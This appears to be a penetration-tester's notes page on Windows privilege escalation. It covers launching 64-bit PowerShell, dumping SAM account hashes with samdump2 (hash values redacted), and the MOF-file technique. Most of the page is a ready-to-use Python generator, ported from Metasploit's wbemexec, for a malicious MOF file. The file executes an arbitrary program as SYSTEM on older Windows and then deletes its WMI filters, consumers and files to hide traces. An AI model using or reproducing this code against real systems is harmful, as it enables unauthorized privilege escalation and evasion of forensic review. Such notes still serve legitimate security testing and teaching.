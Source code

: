 # Privilege Escalation

## Process Migration

There can be a number of valid reasons to migrate processes, notably from 32-bit to 64-bit.  The reason is that certain exploits can only be executed from a 64-bit process, or there can be a want to view the 64-bit registry.

```bash
%SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe
```

## SAM File

```bash
root@kali:/tmp# samdump2 System SAM
Administrator:500:REDACTED:REDACTED:::
*disabled* Guest:501:REDACTED:REDACTED:::
*disabled* HelpAssistant:1000:REDACTED:REDACTED:::
*disabled* SUPPORT_388945a0:1002:REDACTED:REDACTED:::
```

## MOF Files

These are useful in the event of an arbitrary read/write on the file system as a SYSTEM User.  For this to work the OS must be XP or lower.  In effect, a MOF file written to `%SystemRoot%\System32\wbem\mof\`, will be compiled automatically by the OS, and allows arbitrary code execution.  A good overview of MOF files themselves is [Playing with MOF files on Windows, for fun & profit](http://poppopret.blogspot.com/2011/09/playing-with-mof-files-on-windows-for.html).

Below is a python version of metasploit's [wbemexec.rb](https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/exploit/wbemexec.rb) for executing a file in the System32 folder.

```python
def genMof(mofName, exe):
    classname = str(randint(0, 9999))
    mof = """#pragma namespace("\\\\\\\\.\\\\root\\\\cimv2")
class MyClass{class}
{
      [key] string Name;
};
class ActiveScriptEventConsumer : __EventConsumer
{
     [key] string Name;
      [not_null] string ScriptingEngine;
      string ScriptFileName;
      [template] string ScriptText;
  uint32 KillTimeout;
};
instance of __Win32Provider as $P
{
    Name  = "ActiveScriptEventConsumer";
    CLSID = "{266c72e7-62e8-11d1-ad89-00c04fd8fdff}";
    PerUserInitialization = TRUE;
};
instance of __EventConsumerProviderRegistration
{
  Provider = $P;
  ConsumerClassNames = {"ActiveScriptEventConsumer"};
};
Instance of ActiveScriptEventConsumer as $cons
{
  Name = "ASEC";
  ScriptingEngine = "JScript";
  ScriptText = "\\ntry {var s = new ActiveXObject(\\"Wscript.Shell\\");\\ns.Run(\\"{exename}\\");} catch (err) {};\\nsv = GetObject(\\"winmgmts:root\\\\\\\\cimv2\\");try {sv.Delete(\\"MyClass{class}\\");} catch (err) {};try {sv.Delete(\\"__EventFilter.Name='instfilt'\\");} catch (err) {};try {sv.Delete(\\"ActiveScriptEventConsumer.Name='ASEC'\\");} catch(err) {};";
};
Instance of ActiveScriptEventConsumer as $cons2
{
  Name = "qndASEC";
  ScriptingEngine = "JScript";
  ScriptText = "\\nvar objfs = new ActiveXObject(\\"Scripting.FileSystemObject\\");\\ntry {var f1 = objfs.GetFile(\\"wbem\\\\\\\\mof\\\\\\\\good\\\\\\\\{mofname}\\");\\nf1.Delete(true);} catch(err) {};\\ntry {\\nvar f2 = objfs.GetFile(\\"{exename}\\");\\nf2.Delete(true);\\nvar s = GetObject(\\"winmgmts:root\\\\\\\\cimv2\\");s.Delete(\\"__EventFilter.Name='qndfilt'\\");s.Delete(\\"ActiveScriptEventConsumer.Name='qndASEC'\\");\\n} catch(err) {};";
};
instance of __EventFilter as $Filt
{
  Name = "instfilt";
  Query = "SELECT * FROM __InstanceCreationEvent WHERE TargetInstance.__class = \\"MyClass{class}\\"";
  QueryLanguage = "WQL";
};
instance of __EventFilter as $Filt2
{
  Name = "qndfilt";
  Query = "SELECT * FROM __InstanceDeletionEvent WITHIN 1 WHERE TargetInstance ISA \\"Win32_Process\\" AND TargetInstance.Name = \\"{exename}\\"";
  QueryLanguage = "WQL";
};
instance of __FilterToConsumerBinding as $bind
{
  Consumer = $cons;
  Filter = $Filt;
};
instance of __FilterToConsumerBinding as $bind2
{
  Consumer = $cons2;
  Filter = $Filt2;
};
instance of MyClass{class} as $MyClass
{
  Name = "ClassConsumer";
};"""
    mof = sub('{class}', classname, mof)
    mof = sub('{exename}', exe, mof)
    mof = sub('{mofname}', mofName, mof)
    return mof
```

#### References

[Playing with MOF files on Windows, for fun & profit](http://poppopret.blogspot.com/2011/09/playing-with-mof-files-on-windows-for.html)  
[How to use WbemExec for a write privilege attack on Windows](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-WbemExec-for-a-write-privilege-attack-on-Windows)  
[https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/exploit/wbemexec.rb](https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/exploit/wbemexec.rb)



